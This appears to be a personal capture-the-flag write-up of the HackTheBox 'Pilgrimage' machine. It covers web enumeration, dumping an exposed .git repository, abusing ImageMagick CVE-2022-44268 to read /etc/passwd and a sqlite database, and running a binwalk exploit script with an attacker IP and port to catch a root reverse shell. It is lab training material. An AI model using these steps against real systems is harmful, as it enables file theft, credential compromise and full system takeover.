 # Pilgrimage

Tags: Linux
Level: Easy
Tools: Feroxbuster, git, magick, imagemagick, image, binwalk
Bugs: cve-2022-44268
Status: Done
Date: November 25, 2023

Started Pilgrimage 2 writeup machine hackthebox using official walkthrough

### Nmap

Started using Nmap 100 port scan

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled.png)

By Nmap scan result 2 ports are open 1. SSH, 2. HTTP it has redirect http://pilgrimage.htb, machine using linux distro.

### Enumeration

By using this information added host name in /etc/hosts

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%201.png)

In the web page having 3 functionalities Home, Signup, Login register using basic test/test credential start capturing in burp suite.

- [ ]  capture request
- [ ]  Directory path enumerate
- [ ]  curl

Let’s try to find available Directory using **feroxbuster**

```jsx
feroxbuster --url http://pilgrimage.htb -w /usr/share/seclists/Discovery/Web-
Content/common.txt
```

I found some interesting .git paths 

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%202.png)

The scan revels the .git path try to enumerate using **git-dumper**

```jsx
path https://github.com/arthaud/git-dumper
git-dumper http://website.com/.git ~/website
---git-dumper http://pilgrimage.htb/ .
```

After running git-dumper files are download their is **magick**

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%203.png)

This **magick** file returns **Imagemagic** - https://github.com/voidz0r/CVE-2022-44268.git

We try out the aforementioned Proof of Concept (PoC), which is a simple Rust application that creates the malicious PNG for us.

```jsx
git clone https://github.com/voidz0r/CVE-2022-44268.git
cd CVE-2022-44268
cargo run "/etc/passwd"
```

> Note: cargo is used to compile and run the Rust program. It is recommended that you install it
using [rustup](https://rustup.rs).
> 

```jsx
identify -verbose image.png
```

It will provide the image.png description

Or you ca generate file using 

```jsx
https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC
refere ippsec video - https://www.youtube.com/watch?v=aaUlHicClrI
```

I have uploaded payload image.png it has a profile as /etc/passwd

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%204.png)

It converted file as [http://pilgrimage.htb/shrunk/6562a2d76e015.png](http://pilgrimage.htb/shrunk/6562a2d76e015.png) then downloaded using **wget,** 

After start checking with exiftool, and identify

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%205.png)

```jsx
identify -verbose [6562a2d76e015.png](http://pilgrimage.htb/shrunk/6562a2d76e015.png)
```

It has given data in hex format save into file passwd.hex the 

1.using **cat passwd.hex | xxd -r -p** takes time

2.Using python -c ‘print(bytes.fromhex(”Enter hex code in line”))’ — like below screenshot

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%206.png)

Their is users are **root, emily**  using this information we can’t do login, The web server is using www-data user, If want log in. Need a username and **password don’t have password.**

But **index.php** file has clue server is using **sqlite** database in line number 31.

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%207.png)

using this link generating the image with payload “/var/db/pilgrimage”

[https://github.com/Sybil-Scan/imagemagick-lfi-poc](https://github.com/Sybil-Scan/imagemagick-lfi-poc)

Generated image using this payload “/var/db/pilgrimage”

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%208.png)

Let’s try to upload the file into webserver and see 

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%209.png)

Download the image using wget [http://pilgrimage.htb/shrunk/6562b558d0b6a.png](http://pilgrimage.htb/shrunk/6562b558d0b6a.png)

their is long hex code in identify -verbose abovefile.png

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2010.png)

Let’s try to login using **ssh shell**

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2011.png)

check all the directories

ps -ef —forest

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2012.png)

Their is interesting running with root access malwarescan.sh 

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2013.png)

Let’s search binwalk v2.3.2

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2014.png)

After downloading the script running script using simantaously run netcat 

[https://medium.com/@jayeshgaba/hackthebox-writeup-pilgrimage-1084d1ae8970](https://medium.com/@jayeshgaba/hackthebox-writeup-pilgrimage-1084d1ae8970)

**run below script**

```jsx
python3 51249.py binwalk_exploit.png 10.10.16.25 4444
```

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2015.png)

after running the script copy the image **binwalk_exploit.png** to the directory 

Missing some image on the **user shell**   **history** command

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2016.png)

```jsx
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk
```

wait for some time

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2017.png)

we will get the shell back with root access

helo

![Untitled](Pilgrimage%20f2ab33fc942e41c8b40b87fd24b0e04b/Untitled%2018.png)